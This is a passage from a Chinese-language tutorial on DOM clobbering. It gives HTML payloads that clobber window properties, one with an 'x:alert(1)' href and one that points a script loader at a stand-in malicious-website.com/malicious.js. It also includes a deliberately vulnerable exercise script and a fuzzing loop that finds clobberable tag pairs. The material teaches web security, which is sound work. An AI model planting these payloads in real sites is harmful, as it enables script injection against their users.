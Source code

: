 所以我们就可以利用下面的方法轻松解决之前的`eval(''+window.test1.test2)`的问题了。

```html
<a id="test1"></a><a id="test1" name="test2" href="x:alert(1)"></a>
```

### 0x2 一个简单的练习

```javascript
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

为了利用这个漏洞，只需要向html中添加如下内容就可以了。

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>
```

### 0x3 进阶

找出所有id具有父子依赖关系的节点。实现代码很简单，如下所示：

```javascript
        var log=[];
var html = ["a","abbr","acronym","address","applet","area","article","aside","audio","b","base","basefont","bdi","bdo","bgsound","big","blink","blockquote","body","br","button","canvas","caption","center","cite","code","col","colgroup","command","content","data","datalist","dd","del","details","dfn","dialog","dir","div","dl","dt","element","em","embed","fieldset","figcaption","figure","font","footer","form","frame","frameset","h1","head","header","hgroup","hr","html","i","iframe","image","img","input","ins","isindex","kbd","keygen","label","legend","li","link","listing","main","map","mark","marquee","menu","menuitem","meta","meter","multicol","nav","nextid","nobr","noembed","noframes","noscript","object","ol","optgroup","option","output","p","param","picture","plaintext","pre","progress","q","rb","rp","rt","rtc","ruby","s","samp","script","section","select","shadow","slot","small","source","spacer","span","strike","strong","style","sub","summary","sup","svg","table","tbody","td","template","textarea","tfoot","th","thead","time","title","tr","track","tt","u","ul","var","video","wbr","xmp"], logs = [];
div=document.createElement('div');
for(var i=0;i<html.length;i++) {
  for(var j=0;j<html.length;j++) {
    div.innerHTML='<'+html[i]+' id=element1>'+'<'+html[j]+' id=element2>';
    document.body.appendChild(div);
    if(window.element1 && element1.element2){
       log.push(html[i]+','+html[j]);
    }
    document.body.removeChild(div);
  }
}
console.log(log.join('\n'));
```
